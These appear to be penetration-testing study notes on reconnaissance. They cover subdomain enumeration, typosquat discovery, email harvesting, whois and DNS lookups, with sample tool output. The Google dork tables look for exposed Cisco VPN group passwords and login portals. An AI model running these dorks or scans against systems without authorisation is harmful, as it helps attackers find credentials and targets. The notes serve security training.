## Finding the Domain and Sub-domains of the Target

- Check for the company's URL in the engagement letter or use a search engine such as Google or Bing
- Subdomains represent different applications and help in viewing the attack susrface of a target organization

### Tools

### Subbrute

https://github.com/TheRook/subbrute

```
#./subbrute.py certifiedhacker.com
certifiedhacker.com
www.certifiedhacker.com
_tcp.certifiedhacker.com
_tls.certifiedhacker.com
_udp.certifiedhacker.com
_domainkey.certifiedhacker.com
_pkixrep._tcp.certifiedhacker.com
_aix._tcp.certifiedhacker.com
_afpovertcp._tcp.certifiedhacker.com
_autodiscover._tcp.certifiedhacker.com
_caldav._tcp.certifiedhacker.com
_certificates._tcp.certifiedhacker.com
_cisco-phone-http.certifiedhacker.com
_cisco-phone-tftp.certifiedhacker.com
_cisco-uds._tcp.certifiedhacker.com
_ciscowtp._tcp.certifiedhacker.com
_collab-edge._tls.certifiedhacker.com
_crl._tcp.certifiedhacker.com
_cmp._tcp.certifiedhacker.com
_crls._tcp.certifiedhacker.com
_cuplogin._tcp.certifiedhacker.com
_client._smtp._tcp.certifiedhacker.com
_client._smtp.certifiedhacker.com
_finger._tcp.certifiedhacker.com
_ftp._tcp.certifiedhacker.com
_sftp._tcp.certifiedhacker.com

```

### Nmap

```
$nmap --script dns-brute www.certifiedhacker.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-13 23:21 PST
Nmap scan report for www.certifiedhacker.com (162.241.216.11)
Host is up (0.21s latency).
rDNS record for 162.241.216.11: box5331.bluehost.com
Not shown: 983 closed ports
PORT     STATE    SERVICE
21/tcp   open     ftp
22/tcp   open     ssh
25/tcp   filtered smtp
26/tcp   open     rsftp
53/tcp   open     domain
80/tcp   open     http
110/tcp  open     pop3
143/tcp  open     imap
443/tcp  open     https
465/tcp  open     smtps
587/tcp  open     submission
993/tcp  open     imaps
995/tcp  open     pop3s
2222/tcp open     EtherNetIP-1
2525/tcp filtered ms-v-worlds
3306/tcp open     mysql
5432/tcp open     postgresql

Host script results:
| dns-brute: 
|   DNS Brute-force hostnames: 
|     news.certifiedhacker.com - 162.241.216.11
|     mail.certifiedhacker.com - 162.241.216.11
|     blog.certifiedhacker.com - 162.241.216.11
|     ftp.certifiedhacker.com - 162.241.216.11
|     smtp.certifiedhacker.com - 162.241.216.11
|_    www.certifiedhacker.com - 162.241.216.11

Nmap done: 1 IP address (1 host up) scanned in 26.57 seconds
```

### Dnsmap

https://github.com/makefu/dnsmap

```
#dnsmap certifiedhacker.com
dnsmap 0.35 - DNS Network Mapper

[+] searching (sub)domains for certifiedhacker.com using built-in wordlist
[+] using maximum random delay of 10 millisecond(s) between requests

blog.certifiedhacker.com
IP address #1: 162.241.216.11

cpanel.certifiedhacker.com
IP address #1: 162.241.216.11

events.certifiedhacker.com
IP address #1: 162.241.216.11

ftp.certifiedhacker.com
IP address #1: 162.241.216.11

imap.certifiedhacker.com
IP address #1: 162.241.216.11

localhost.certifiedhacker.com
IP address #1: 127.0.0.1
[+] warning: domain might be vulnerable to "same site" scripting (https://seclists.org/bugtraq/2008/Jan/270)

mail.certifiedhacker.com
IP address #1: 162.241.216.11
```

### Fierce

```
#fierce --domain certifiedhacker.com
NS: ns2.bluehost.com. ns1.bluehost.com.
SOA: ns1.bluehost.com. (162.159.24.80)
Zone: failure
Wildcard: failure
Found: blog.certifiedhacker.com. (162.241.216.11)
Nearby:
{'162.241.216.10': '162-241-216-10.unifiedlayer.com.',
 '162.241.216.11': 'box5331.bluehost.com.',
 '162.241.216.12': '162-241-216-12.unifiedlayer.com.',
 '162.241.216.13': '162-241-216-13.unifiedlayer.com.',
 '162.241.216.14': 'box5334.bluehost.com.',
 '162.241.216.15': '162-241-216-15.unifiedlayer.com.',
 '162.241.216.16': '162-241-216-16.unifiedlayer.com.',
 '162.241.216.6': '162-241-216-6.unifiedlayer.com.',
 '162.241.216.7': '162-241-216-7.unifiedlayer.com.',
 '162.241.216.8': '162-241-216-8.unifiedlayer.com.',
 '162.241.216.9': '162-241-216-9.unifiedlayer.com.'}
Found: events.certifiedhacker.com. (162.241.216.11)
Found: ftp.certifiedhacker.com. (162.241.216.11)
```

### Sublist3r

https://github.com/aboul3la/Sublist3r

```
python sublist3r.py -d certifiedhacker.com  -p 80 -e Google
```


### Netcraft

https://searchdns.netcraft.com/

## Finding Similar or Parallel Domains

It is important for a penetration tester to identify similar or parallel registered domain names of the target organization. These domain names help them identify how to exploit typosquatting errors by redirecting the victim to a malicious website. For example, if the target organization is called xsecurity.com, then the penetration tester should look for the following:

- xsecurity.org

- xsecurity.net

- xsecurity.biz

- xsecurity.tv

- wwwxsecurity.com

- wwwxsecuritycom.com
- www-xsecurity.com
- www_xsecurity.com
- www_xsecurity_.com
- ysecurity.cm
- zsecurity.com

### Toools

### URLCrazy

https://github.com/urbanadventurer/urlcrazy

```
# urlcrazy -p microsoft.com
```


## Refining Web Searches using Advanced Operators

Google’s advanced operators can be used to refine a search and create complex queries to find, filter, and sort specific information regarding the target. Google hacking is a hacking technique to locate specific strings within search results by using an advanced operator in the Google search engine. Well-composed queries can return valuable data about a target company. Through Google hacking, a penetration tester can find websites vulnerable to numerous exploits and vulnerabilities. The Google Hacking Database (GHDB), a database of queries, can be used to identify sensitive data. By using advanced Google search operators, the penetration tester can locate specific strings such as specific versions of vulnerable web applications.

The syntax to use an advanced search operator is “operator: search_term.” The following
screenshot demonstrates some advanced search operators.




**The following are some popular Google advanced search operators:**

- or: searches for a given term or its equivalent
- “ ”: searches for a specific term

- "-" : removes pages related with the specified term from the results
- site: restricts the search results to the specified site or domain
- intitle: restricts the results to those pages containing the specified term in the title
  

- allintitle: restricts the results to those pages containing all the query terms specified in the title

- allintext: searches pages with content specified in search criteria inurl: restricts the results to those pages containing the word specified in the URL
- allinurl: restricts the results to those pages containing all the query terms specified in the URL
- link: searches websites or pages that contain links to the specified website or page
- info: finds information for the specified web page
- related: displays websites that are similar or related to the specified URL
- cache: displays Google's cached version of a web page, instead of the current version of the web page
- location: finds information for a specific location
- define: finds definitions of words, phrases, and acronyms
- filetype: allows searching based on a file extension
- id: an undocumented alias for info
- inanchor: restricts results to those pages containing the query terms specified in the anchor text on links to the page
- allinanchor: restricts results to those pages containing all query terms specified in the anchor text on links to the page
- author: restricts Google Groups results to include newsgroup articles by the specified author; the author can be a full or partial name or email address
- group: restricts Google Groups results to newsgroup articles from certain groups or subareas
- insubject: restricts articles in Google Groups to those that contain the specified terms
- intext: restricts results to documents containing the term in the text
- source: restricts results to articles from the news source with the specified ID

### Google Hacking Database

https://www.exploit-db.com/

The GHDB is an authoritative source for querying the ever-widening reach of the Google search engine. Google Hacking/Dorking can be used to perform an advanced search. The GHDB includes search terms for files containing usernames, vulnerable servers, and even passwords. The Exploit Database (Exploit DB) is a Common Vulnerabilities and Exposures (CVE)-compliant archive of public exploits and the corresponding vulnerable software, and it was developed for use by penetration testers and vulnerability researchers.

The following are the categories in the GHDB:

- Footholds
- Files Containing Usernames
- Sensitive Directories
- Web Server Detection
-  Vulnerable Files
- Vulnerable Servers
- Error Messages
- Files Containing Juicy Info
- Files Containing Passwords
- Sensitive Online Shopping Info
- Network or Vulnerability Data
- Pages Containing Login Portals
- Various Online Devices
- Advisories and Vulnerabilities

### VOIP Footprinting (Google search queries)

| Google Dork                                                  | Description                                       |
| :----------------------------------------------------------- | ------------------------------------------------- |
| intitle:"Login Page” intext:"Phone Adapter Configuration Utility” | Pages containing login portals                    |
| inurl:/voice/advanced/intitle:Linksys SPA configuration      | Finds the Linksys VoIP router  configuration page |
| intitle:"D-Link VoIP Router" "Welcome"                       | Pages containing D-Link login portals             |
| intitle:asterisk.management.portal web-access                | Looks for the Asterisk Management Portal          |
| inurl:"NetworkConfiguration” cisco                           | Finds Cisco phone details                         |
| inurl:"ccmuser/logon.asp”                                    | Finds the Cisco call manager                      |
| inurl:8080 intitle:"login” intext:"UserLogin“ "English”      | VoIP login portals                                |
| Intitle:"SPA Configuration”                                  | Searches Linksys phones                           |

### VPN Footprinting (Google search queries)

| Google Dork                                  | Description                                                  |
| -------------------------------------------- | ------------------------------------------------------------ |
| filetype:pcf "cisco" "GroupPwd"              | Cisco VPN files with group passwords for remote access       |
| "[main]" "enc_GroupPwd=" ext:txt             | Finds Cisco VPN client passwords (encrypted but easily cracked) |
| "Config" intitle: "Index of" intext:vpn      | Directory with keys of VPN servers                           |
| inurl:/remote/login?lang=en                  | Finds FortiGate Firewall’s SSL-VPN login portal              |
| !Host="*" Intext:enc_UserPassword=*  ext:pcf | Looks for profile configuration files ( .pcf) files containing user VPN profiles |
| filetype:rcf inurl:vpn                       | Finds Sonicwall Global VPN Client files containing sensitive information and login details |
| filetype:pef vpn OR Group                    | Finds publicly accessible.pcf used by VPN clients            |
|                                              |                                                              |

### Tools to automate the Google hacking process

#### SiteDigger
Source: https://www.mcafee.com

SiteDigger searches Google's cache to look for vulnerabilities, errors, configuration issues, proprietary information, and interesting security nuggets on websites. It supports proxy

#### Google Hacking Diggity Project

https://resources.bishopfox.com/resources/tools/google-hacking-diggity/attack-tools/

With the Google Hacking Diggity Project, search engines such as Google, Bing, and Shodan can be utilized to quickly identify vulnerable systems and sensitive data in networks.

Google Hacking Diggity Project attack tools enable finding information disclosures and exposed vulnerabilities before others do. It consists of various attack and defense tools. The following are the Google Hacking Diggity Project attack tools:

- Search Diggity
- GoogleDiggity
- BingDiggity
- FlashDiggity
- DLPDiggity
- LinkFromDomaindiggity
- CodeSearchDiggity
- MalwareDiggity
- PortScanDiggity
- NotinMyBackYard
- Bing BinaryMalware
- SHODANDiggity

### Footprinting Tools

**Shodan**

https://www.shodan.io/

### Finding Geographical Location of a company

#### Google Maps

https://www.google.com/maps

#### Nmap

Nmap Is a utility tor network discovery and security auditing. [he Nmap ip-geolocation script can be used to identify the physical location of an IP address and Global Positioning System (GPS) coordinates of the target. The NSE scripts available for this purpose are listed below:

- **ip-geolocation-geoplugin**

  Attempts to identify the physical location of an IP address using the Geoplugin geolocation web service

- ip-geolocation-ipinfodb

  Attempts to identify the physical location of an IP address using the IPInfoDB geolocation web service

- ip-geolocation-map-bing

  Queries the Nmap registry for the GPS coordinates of targets stored by previous geolocation scripts and renders a Bing Map of markers representing the targets

- ip-geolocation-map-google

  Queries the Nmap registry for the GPS coordinates of targets stored by previous geolocation scripts and renders a Google Map of markers representing the targets

- ip-geolocation-map-kml

  Queries the Nmap registry for the GPS coordinates of targets stored by previous geolocation scripts and produces a Keyhole Markup Language (KML) file of points representing the targets

- ip-geolocation-maxmind

  Attempts to identify the physical location of an IP address using Geolocation Maxmind database file

```
#nmap -sn --script ip-geolocation-* www.microsoft.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 03:25 PST
NSE: [ip-geolocation-maxmind] You must specify a Maxmind database file with the maxmind_db argument.
NSE: [ip-geolocation-maxmind] Download the database from http://dev.maxmind.com/geoip/legacy/geolite/
Nmap scan report for www.microsoft.com (202.138.165.182)
Host is up (0.016s latency).
Other addresses for www.microsoft.com (not scanned): 2001:4457:fe4:180::356e 2001:4457:fe4:185::356e 2001:4457:fe4:192::356e

Host script results:
| ip-geolocation-geoplugin: coordinates: 14.5955, 120.9721
|_location: , Philippines

Post-scan script results:
Unprotected error in Lua:
(null)

QUITTING!
```

## Listing Employees and their Email Addresses

### Email Harvesting

#### the Harvester

https://github.com/laramies/theHarvester

```
 #theHarvester -d certifiedhacker.com -l 500 -b google -f myresult.html

*******************************************************************
*  _   _                                            _             *
* | |_| |__   ___    /\  /\__ _ _ ____   _____  ___| |_ ___ _ __  *
* | __|  _ \ / _ \  / /_/ / _` | '__\ \ / / _ \/ __| __/ _ \ '__| *
* | |_| | | |  __/ / __  / (_| | |   \ V /  __/\__ \ ||  __/ |    *
*  \__|_| |_|\___| \/ /_/ \__,_|_|    \_/ \___||___/\__\___|_|    *
*                                                                 *
* theHarvester 3.2.3                                              *
* Coded by Christian Martorella                                   *
* Edge-Security Research                                          *
* cmartorella@edge-security.com                                   *
*                                                                 *
******************************************************************* 


[*] Target: certifiedhacker.com 
 
	Searching 0 results.
	Searching 100 results.
	Searching 200 results.
	Searching 300 results.
	Searching 400 results.
	Searching 500 results.
[*] Searching Google. 

[*] No IPs found.

[*] No emails found.

[*] Hosts found: 4
---------------------
253dwww.certifiedhacker.com
dns.certifiedhacker.com
www.certifiedhacker.com:162.241.216.11

[*] Reporting started.
[*] Reporting finished.
[*] Saving files.
[*] Files saved.
```

#### Phising Frenzy

https://www.phishingfrenzy.com/

#### Metagoofil

```
┌─[✗]─[root@parrot]─[/usr/share/metagoofil]
└──╼ #metagoofil -d certifiedhacker.com -t doc.pdf -l 100 -n 10 -o certifiedhackerfiles 
[+] Adding -w for you
[*] Downloaded files will be saved here: certifiedhackerfiles
[+] Creating folder: certifiedhackerfiles
[*] Searching for 100 .doc.pdf files and waiting 30.0 seconds between searches
[-] EXCEPTION: HTTP Error 429: Too Many Requests
[*] Google is blocking you for making too many requests.  You will need to spread out the Google searches with metagoofil's switches or utilize SSH and dynamic SOCKS proxies.  Don't know how to utilize SSH and dynamic SOCKS proxies?  Do yourself a favor and pick up a copy of The Cyber Plumber's Handbook and interactive lab (https://gumroad.com/l/cph_book_and_lab) to learn all about Secure Shell (SSH) tunneling, port redirection, and bending traffic like a boss.
[*] Exiting for now...
```

#### Pastebin

https://pastebin.com/

#### HaveIBeenpwned

https://haveibeenpwned.com/


#### Whois

```
#whois microsoft.com
   Domain Name: MICROSOFT.COM
   Registry Domain ID: 2724960_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.markmonitor.com
   Registrar URL: http://www.markmonitor.com
   Updated Date: 2021-03-12T23:25:32Z
   Creation Date: 1991-05-02T04:00:00Z
   Registry Expiry Date: 2022-05-03T04:00:00Z
   Registrar: MarkMonitor Inc.
   Registrar IANA ID: 292
   Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
   Registrar Abuse Contact Phone: +1.2083895740
   Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
   Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
   Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
   Domain Status: serverDeleteProhibited https://icann.org/epp#serverDeleteProhibited
   Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
   Domain Status: serverUpdateProhibited https://icann.org/epp#serverUpdateProhibited
   Name Server: NS1-205.AZURE-DNS.COM
   Name Server: NS2-205.AZURE-DNS.NET
   Name Server: NS3-205.AZURE-DNS.ORG
   Name Server: NS4-205.AZURE-DNS.INFO
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2021-08-13T08:16:42Z <<<

For more information on Whois status codes, please visit https://icann.org/epp

NOTICE: The expiration date displayed in this record is the date the
```

#### Nmap (whois)

```
#nmap -sn --script whois-* www.microsoft.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 04:17 PST
Nmap scan report for www.microsoft.com (184.51.137.178)
Host is up (0.039s latency).
Other addresses for www.microsoft.com (not scanned): 2001:4457:fe4:192::356e 2001:4457:fe4:185::356e
rDNS record for 184.51.137.178: a184-51-137-178.deploy.static.akamaitechnologies.com

Host script results:
| whois-domain: 
| 
| Domain name record found at whois.verisign-grs.com
|    Domain Name: MICROSOFT.COM\x0D
|    Registry Domain ID: 2724960_DOMAIN_COM-VRSN\x0D
|    Registrar WHOIS Server: whois.markmonitor.com\x0D
|    Registrar URL: http://www.markmonitor.com\x0D
|    Updated Date: 2021-03-12T23:25:32Z\x0D
|    Creation Date: 1991-05-02T04:00:00Z\x0D
|    Registry Expiry Date: 2022-05-03T04:00:00Z\x0D
|    Registrar: MarkMonitor Inc.\x0D
|    Registrar IANA ID: 292\x0D
|    Registrar Abuse Contact Email: abusecomplaints@markmonitor.com\x0D
|    Registrar Abuse Contact Phone: +1.2083895740\x0D
|    Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited\x0D
|    Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited\x0D
|    Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited\x0D
|    Domain Status: serverDeleteProhibited https://icann.org/epp#serverDeleteProhibited\x0D
|    Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited\x0D
|    Domain Status: serverUpdateProhibited https://icann.org/epp#serverUpdateProhibited\x0D
|    Name Server: NS1-205.AZURE-DNS.COM\x0D
|    Name Server: NS2-205.AZURE-DNS.NET\x0D
|    Name Server: NS3-205.AZURE-DNS.ORG\x0D
|    Name Server: NS4-205.AZURE-DNS.INFO\x0D
|    DNSSEC: unsigned\x0D
|    URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/\x0D
| >>> Last update of whois database: 2021-08-13T08:19:14Z <<<\x0D
| \x0D
| For more information on Whois status codes, please visit https://icann.org/epp\x0D
| \x0D
| NOTICE: The expiration date displayed in this record is the date the\x0D
| registrar's sponsorship of the domain name registration in the registry is\x0D
| currently set to expire. This date does not necessarily reflect the expiration\x0D
| date of the domain name registrant's agreement with the sponsoring\x0D
| registrar.  Users may consult the sponsoring registrar's Whois database to\x0D
| view the registrar's reported date of expiration for this registration.\x0D
| \x0D
| TERMS OF USE: You are not authorized to access or query our Whois\x0D
| database through the use of electronic processes that are high-volume and\x0D
| automated except as reasonably necessary to register domain names or\x0D
| modify existing registrations; the Data in VeriSign Global Registry\x0D
| Services' ("VeriSign") Whois database is provided by VeriSign for\x0D
| information purposes only, and to assist persons in obtaining information\x0D
| about or related to a domain name registration record. VeriSign does not\x0D
| guarantee its accuracy. By submitting a Whois query, you agree to abide\x0D
| by the following terms of use: You agree that you may use this Data only\x0D
| for lawful purposes and that under no circumstances will you use this Data\x0D
| to: (1) allow, enable, or otherwise support the transmission of mass\x0D
| unsolicited, commercial advertising or solicitations via e-mail, telephone,\x0D
| or facsimile; or (2) enable high volume, automated, electronic processes\x0D
| that apply to VeriSign (or its computer systems). The compilation,\x0D
| repackaging, dissemination or other use of this Data is expressly\x0D
| prohibited without the prior written consent of VeriSign. You agree not to\x0D
| use electronic processes that are automated and high-volume to access or\x0D
| query the Whois database except as reasonably necessary to register\x0D
| domain names or modify existing registrations. VeriSign reserves the right\x0D
| to restrict your access to the Whois database in its sole discretion to ensure\x0D
| operational stability.  VeriSign may restrict or terminate your access to the\x0D
| Whois database for failure to abide by these terms of use. VeriSign\x0D
| reserves the right to modify these terms at any time.\x0D
| \x0D
| The Registry database contains ONLY .COM, .NET, .EDU domains and\x0D
|_Registrars.\x0D
| whois-ip: Record found at whois.arin.net
| netrange: 184.50.0.0 - 184.51.255.255
| netname: AKAMAI
| orgname: Akamai Technologies, Inc.
| orgid: AKAMAI
| country: US stateprov: MA
| orgtechname: ipadmin
|_orgtechemail: ip-admin@akamai.com

Nmap done: 1 IP address (1 host up) scanned in 3.10 seconds
```

## Regional Internet Registries
The following are some important RIRs.

### 1. American Registry for Internet Numbers (ARIN)
Source: https://www.arin.net

ARIN provides services related to the technical coordination and management of Internet number resources. ARIN offers its services in three areas:

- Registration - pertains to the technical coordination and management of Internet
  number resources

- Organization - pertains to the interaction of ARIN members and stakeholders with ARIN

- Policy development - facilitates the development of policy for the technical coordination and management of Internet number resources in the ARIN region

  ARIN also develops technical services to support the evolving needs of the Internet community.

  

### 2. African Network Information Center (AFRINIC)
Source: https://www.ofrinic.net

AFRINIC is the RIR for Africa and is responsible for the distribution and management of   Internet number resources such as IP addresses and autonomous system numbers (ASNs)   for the African region.

### 3. Réseaux IP Européens Network Coordination Centre (RIPE NCC)

Source: https://www.ripe.net

RIPE NCC provides Internet resource allocations, registration services, and coordination activities that support the operation of the Internet globally.

 ### 4. Asia Pacific Network Information Center (APNIC)

Source: https://www.apnic.net

APNIC is one of five RIRs charged with ensuring the fair distribution and responsible  management of IP addresses and related resources required for the stable and reliable   operation of the global Internet.

### 5. Latin American and Caribbean Network Information Center (LACNIC)

Source: https://www.lacnic.net

LACNIC is an international nongovernmental organization responsible for assigning and administrating Internet numbering resources (IPv4 and IPv6), ASN, reverse resolution,  and other resources for the Latin American and Caribbean regions.

## Whois Lookup using Perl Script

Whois searches can be automated using Perl or Common Gateway Interface (CGI) scripts. One   can perform standard searches, multi searches, and name searches using such scripts 

The following is a sample Per! script to perform a Whois search:

```
# !/usr/bin/perl -w
use strict;
use Net::Whois::Raw;
die "Usage: perl netRange.pl <IP Address>" unless $ARGV[O];
foreach (split(/\n/,whois (shift))) {
 print $_,"\n" if (m/^(netrange|orgname)/i);
}
```

### Whois IP lookup tool

- **Nslookup**

  


##  Finding DNS Records for the Domain

 ### dig

```
dig google.com

; <<>> DiG 9.16.15-Debian <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44496
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.			IN	A

;; ANSWER SECTION:
google.com.		219	IN	A	142.250.66.46

;; Query time: 72 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Sat Aug 14 04:51:08 PST 2021
;; MSG SIZE  rcvd: 55

OR

dig google.com +short
142.250.66.78

```

```
dig google.com -t SOA

; <<>> DiG 9.16.15-Debian <<>> google.com -t SOA
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48237
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.			IN	SOA

;; ANSWER SECTION:
google.com.		37	IN	SOA	ns1.google.com. dns-admin.google.com. 390328977 900 900 1800 60

;; Query time: 32 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Sat Aug 14 04:53:02 PST 2021
;; MSG SIZE  rcvd: 89
```

```
dig google.com -t mx

; <<>> DiG 9.16.15-Debian <<>> google.com -t mx
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 962
;; flags: qr rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.			IN	MX

;; ANSWER SECTION:
google.com.		599	IN	MX	10 aspmx.l.google.com.
google.com.		599	IN	MX	40 alt3.aspmx.l.google.com.
google.com.		599	IN	MX	30 alt2.aspmx.l.google.com.
google.com.		599	IN	MX	20 alt1.aspmx.l.google.com.
google.com.		599	IN	MX	50 alt4.aspmx.l.google.com.

;; Query time: 92 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Sat Aug 14 04:54:25 PST 2021
;; MSG SIZE  rcvd: 147
```

```
dig google.com -t mx

; <<>> DiG 9.16.15-Debian <<>> google.com -t mx
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 962
;; flags: qr rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.			IN	MX

;; ANSWER SECTION:
google.com.		599	IN	MX	10 aspmx.l.google.com.
google.com.		599	IN	MX	40 alt3.aspmx.l.google.com.
google.com.		599	IN	MX	30 alt2.aspmx.l.google.com.
google.com.		599	IN	MX	20 alt1.aspmx.l.google.com.
google.com.		599	IN	MX	50 alt4.aspmx.l.google.com.

;; Query time: 92 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Sat Aug 14 04:54:25 PST 2021
;; MSG SIZE  rcvd: 147
```

### whois (obtaining name server)

```
┌─[sherwinowen@parrot]─[~/Desktop]
└──╼ $whois google.com > rr
┌─[sherwinowen@parrot]─[~/Desktop]
└──╼ $cat rr 
   Domain Name: GOOGLE.COM
   Registry Domain ID: 2138514_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.markmonitor.com
   Registrar URL: http://www.markmonitor.com
   Updated Date: 2019-09-09T15:39:04Z
   Creation Date: 1997-09-15T04:00:00Z
   Registry Expiry Date: 2028-09-14T04:00:00Z
   Registrar: MarkMonitor Inc.
   Registrar IANA ID: 292
   Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
   Registrar Abuse Contact Phone: +1.2083895740
   Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
   Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
   Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
   Domain Status: serverDeleteProhibited https://icann.org/epp#serverDeleteProhibited
   Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
   Domain Status: serverUpdateProhibited https://icann.org/epp#serverUpdateProhibited
   Name Server: NS1.GOOGLE.COM
   Name Server: NS2.GOOGLE.COM
   Name Server: NS3.GOOGLE.COM
   Name Server: NS4.GOOGLE.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2021-08-13T08:59:13Z <<<

For more information on Whois status codes, please visit https://icann.org/epp

NOTICE: The expiration date displayed in this record is the date the
registrar's sponsorship of the domain name registration in the registry is
currently set to expire. This date does not necessarily reflect the expiration
date of the domain name registrant's agreement with the sponsoring
registrar.  Users may consult the sponsoring registrar's Whois database to
view the registrar's reported date of expiration for this registration.

TERMS OF USE: You are not authorized to access or query our Whois
database through the use of electronic processes that are high-volume and
automated except as reasonably necessary to register domain names or
modify existing registrations; the Data in VeriSign Global Registry
Services' ("VeriSign") Whois database is provided by VeriSign for
information purposes only, and to assist persons in obtaining information
about or related to a domain name registration record. VeriSign does not
guarantee its accuracy. By submitting a Whois query, you agree to abide
by the following terms of use: You agree that you may use this Data only
for lawful purposes and that under no circumstances will you use this Data
to: (1) allow, enable, or otherwise support the transmission of mass
unsolicited, commercial advertising or solicitations via e-mail, telephone,
or facsimile; or (2) enable high volume, automated, electronic processes
that apply to VeriSign (or its computer systems). The compilation,
repackaging, dissemination or other use of this Data is expressly
prohibited without the prior written consent of VeriSign. You agree not to
use electronic processes that are automated and high-volume to access or
query the Whois database except as reasonably necessary to register
domain names or modify existing registrations. VeriSign reserves the right
to restrict your access to the Whois database in its sole discretion to ensure
operational stability.  VeriSign may restrict or terminate your access to the
Whois database for failure to abide by these terms of use. VeriSign
reserves the right to modify these terms at any time.

The Registry database contains ONLY .COM, .NET, .EDU domains and
Registrars.
Domain Name: google.com
Registry Domain ID: 2138514_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.markmonitor.com
Registrar URL: http://www.markmonitor.com
Updated Date: 2019-09-09T08:39:04-0700
Creation Date: 1997-09-15T00:00:00-0700
Registrar Registration Expiration Date: 2028-09-13T00:00:00-0700
Registrar: MarkMonitor, Inc.
Registrar IANA ID: 292
Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
Registrar Abuse Contact Phone: +1.2083895770
Domain Status: clientUpdateProhibited (https://www.icann.org/epp#clientUpdateProhibited)
Domain Status: clientTransferProhibited (https://www.icann.org/epp#clientTransferProhibited)
Domain Status: clientDeleteProhibited (https://www.icann.org/epp#clientDeleteProhibited)
Domain Status: serverUpdateProhibited (https://www.icann.org/epp#serverUpdateProhibited)
Domain Status: serverTransferProhibited (https://www.icann.org/epp#serverTransferProhibited)
Domain Status: serverDeleteProhibited (https://www.icann.org/epp#serverDeleteProhibited)
Registrant Organization: Google LLC
Registrant State/Province: CA
Registrant Country: US
Registrant Email: Select Request Email Form at https://domains.markmonitor.com/whois/google.com
Admin Organization: Google LLC
Admin State/Province: CA
Admin Country: US
Admin Email: Select Request Email Form at https://domains.markmonitor.com/whois/google.com
Tech Organization: Google LLC
Tech State/Province: CA
Tech Country: US
Tech Email: Select Request Email Form at https://domains.markmonitor.com/whois/google.com
Name Server: ns4.google.com
Name Server: ns1.google.com
Name Server: ns2.google.com
Name Server: ns3.google.com
DNSSEC: unsigned
URL of the ICANN WHOIS Data Problem Reporting System: http://wdprs.internic.net/
>>> Last update of WHOIS database: 2021-08-13T01:53:15-0700 <<<
```

```
─[sherwinowen@parrot]─[~/Desktop]
└──╼ $cat rr | grep Name
   Domain Name: GOOGLE.COM
   Name Server: NS1.GOOGLE.COM
   Name Server: NS2.GOOGLE.COM
   Name Server: NS3.GOOGLE.COM
   Name Server: NS4.GOOGLE.COM
Domain Name: google.com
Name Server: ns4.google.com
Name Server: ns1.google.com
Name Server: ns2.google.com
Name Server: ns3.google.com
┌─[sherwinowen@parrot]─[~/Desktop]
└──╼ $cat rr | grep Name | grep -v Domain
   Name Server: NS1.GOOGLE.COM
   Name Server: NS2.GOOGLE.COM
   Name Server: NS3.GOOGLE.COM
   Name Server: NS4.GOOGLE.COM
Name Server: ns4.google.com
Name Server: ns1.google.com
Name Server: ns2.google.com
Name Server: ns3.google.com
┌─[sherwinowen@parrot]─[~/Desktop]
└──╼ $
```

## dnsrecon

```
$dnsrecon -d www.microsoft.com
[*] Performing General Enumeration of Domain: www.microsoft.com
[-] DNSSEC is not configured for www.microsoft.com
[*] 	 SOA n0dscb.akamaiedge.net 88.221.81.192
[-] Could not Resolve NS Records for www.microsoft.com
[-] Could not Resolve MX Records for www.microsoft.com
[*] 	 CNAME www.microsoft.com www.microsoft.com-c-3.edgekey.net
[*] 	 CNAME www.microsoft.com-c-3.edgekey.net www.microsoft.com-c-3.edgekey.net.globalredir.akadns.net
